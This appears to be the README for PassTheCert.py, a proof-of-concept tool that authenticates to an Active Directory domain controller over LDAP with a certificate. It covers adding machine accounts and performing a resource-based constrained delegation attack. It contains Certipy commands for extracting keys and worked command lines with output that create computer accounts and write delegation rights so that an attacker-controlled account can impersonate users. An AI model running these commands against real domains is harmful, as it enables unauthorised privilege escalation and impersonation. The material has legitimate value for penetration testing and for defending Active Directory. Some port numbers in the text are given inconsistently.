 PassTheCert.py
==============

This POC implements LDAP certificate authentication for two impacket scripts:
[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
and [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py).
You can perform LDAP certificate authentication both on port 686 and 389 (via a
StarTLS command). Please note that you need a functional LDAPS service on the
targeted domain controller to successfully use StartTLS on the LDAP port.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

If you use [Certipy](https://github.com/ly4k/Certipy) to retrieve certificates, you can extract key and cert from the pfx by using:

```console
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
```

Usage
-----

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

usage: passthecert.py [-h] [-debug] [-port {389,636}] [-action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd}]] [-baseDN DC=test,DC=local]
                      [-computer-group CN=Computers] [-domain test.local] [-domain-netbios NETBIOSNAME] [-computer-name COMPUTER-NAME$] [-computer-pass password] [-delegate-to DELEGATE_TO]
                      [-delegate-from DELEGATE_FROM] [-dc-host hostname] [-dc-ip ip] -crt user.crt -key user.key

Manage domain computers and perform RBCD attack via LDAP certificate authentication

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -port {389,636}       Destination port to connect to. LDAPS (via StartTLS) on 386 or LDAPS on 636.

Action:
  -action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd}]

Manage Computer:
  -baseDN DC=test,DC=local
                        Set baseDN for LDAP.If ommited, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group CN=Computers
                        Group to which the account will be added. If omitted, CN=Computers will be used,
  -domain test.local    Target domain fqdn
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name COMPUTER-NAME$
                        Name of computer to add.If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass password
                        Password to set to computerIf omitted, a random [A-Za-z0-9]{32} will be used.

RBCD attack:
  -delegate-to DELEGATE_TO
                        Target computer account the attacker has at least WriteProperty to
  -delegate-from DELEGATE_FROM
                        Attacker controlled machine account to write on the msDS-Allo[...] property (only when using `-action write`)

Authentication:
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.
  -crt user.crt         User's certificate
  -key user.key         User's private key
```

Actions
-------
* Manage Comuter
  * `add_computer`: Add a computer to the domain
  * `del_computer`: Delete a computer from the domain
  * `modify_computer`: Modify the password of the computer

* RBCD attack
  * `read_rbcd`: Read `msDS-AllowedToActOnBehalfOfOtherIdentity` and resolve SIDs to `sAMaccountnames`
  * `write_rbcd`: Write new SIDs to `the msDS-AllowedToActOnBehalfOfOtherIdentity`
  * `remove_rbcd`: Remove specific entries
  * `flush_rbcd`: Flush all entries

Examples
--------

Create a computer via LDAPS:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account DESKTOP-CKDRXFUX$ with password dzy3pjZqEH6f4Igql5dp4I5Dx8uA4PrV.
```

Create a computer via LDAPS with custom name/password:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account OFFSECMACHINE$ with password SheSellsSeaShellsOnTheSeaShore.
```

Add a delegation right via StartTLS on port 389:

```console
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] SRV-MAIL$ can now impersonate users on DESKTOP-CKDRXFUX$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     SRV-MAIL$    (S-1-5-21-XXXXXXXXX-YYYYYYYYYY-WWWWWWWW-1109)
```

Credits
-------

- [JaGoTu (@jagotu)](https://twitter.com/jagotu) for [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
- [Remi Gascou (@podalirius_)](https://twitter.com/podalirius_) and [Charlie Bromberg (@_nwodtuhs)](https://twitter.com/_nwodtuhs) for [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py)
* [Impacket](https://github.com/SecureAuthCorp/impacket) by [SecureAuth](https://www.secureauth.com/)

